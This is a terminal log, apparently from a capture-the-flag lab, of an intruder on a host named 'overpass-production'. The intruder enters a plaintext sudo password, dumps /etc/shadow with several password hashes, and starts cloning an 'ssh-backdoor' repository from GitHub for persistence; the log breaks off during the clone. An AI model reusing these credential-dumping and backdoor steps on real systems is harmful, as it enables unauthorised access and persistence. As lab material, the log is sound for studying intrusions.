 ```bash
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
```
